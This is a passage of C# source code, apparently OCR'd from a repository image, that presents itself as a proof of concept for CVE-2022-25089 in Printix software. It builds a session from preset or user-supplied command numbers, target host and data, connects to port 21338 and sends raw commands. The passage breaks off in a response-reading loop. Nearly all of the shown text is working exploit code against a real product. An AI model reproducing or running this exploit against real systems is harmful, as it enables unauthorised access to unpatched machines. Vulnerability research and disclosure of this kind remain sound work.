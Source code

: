                             command = session.commandNumber;
                            host = session.host;
                            data = session.data;
                            DefaultValues.CurrentSessName = "printixReflectorPackage_" + new Random().Next(1, 200);



                            break;
                        case (2):
                            Session sessionTwo = new Session(49);

                            command = sessionTwo.commandNumber;
                            host = sessionTwo.host;
                            data = sessionTwo.data;
                            DefaultValues.CurrentSessName = "printixReflectorPackage_" + new Random().Next(1, 200);

                            break;
                        case (3):

                            Console.WriteLine("What command number do you want to input?");
                            command = int.Parse(Console.ReadLine().ToString());
                            Console.WriteLine("What IP would you like to use? (Default = localhost)");
                            host = Console.ReadLine();
                            Console.WriteLine("What data do you want to send? (Keep over 4 chars if you are not sure!)");
                            data = Console.ReadLine();

                            Console.WriteLine("What session name do you want to use? ");
                            DefaultValues.CurrentSessName = Console.ReadLine();
                            break;
                        case (4):
                            Console.WriteLine("Not yet implemented.");
                            break;
                    }
                }
                catch (Exception e)
                {
                    Console.WriteLine("Invalid Input!");
                    goto InvalidInputLabel;
                }
                
                Console.WriteLine("Proof Of Concept For CVE-2022-25089 | Version: 1.3.24 | Created by Logan Latvala");
                Console.WriteLine("This is a RAW API, in which you may get unintended results from usage.\n");

                CompCommClient client = new CompCommClient();


                byte[] responseStorage = new byte[25555];
                int responseCMD = 0;
                client.Connect(host, 21338, 3, 10000);

                client.SendMessage(command, Encoding.UTF8.GetBytes(data));
                // Theory: There is always a message being sent, yet it doesn't read it, or can't intercept it.
                // Check for output multiple times, and see if this is conclusive.



                //client.SendMessage(51, Encoding.ASCII.GetBytes(data));
                new Thread(() => {
                    //Thread.Sleep(4000);
                    if (client.Connected())
                    {
                        int cam = 0;
                        // 4 itterations of loops, may be lifted in the future.
                        while (cam < 5)
                        {
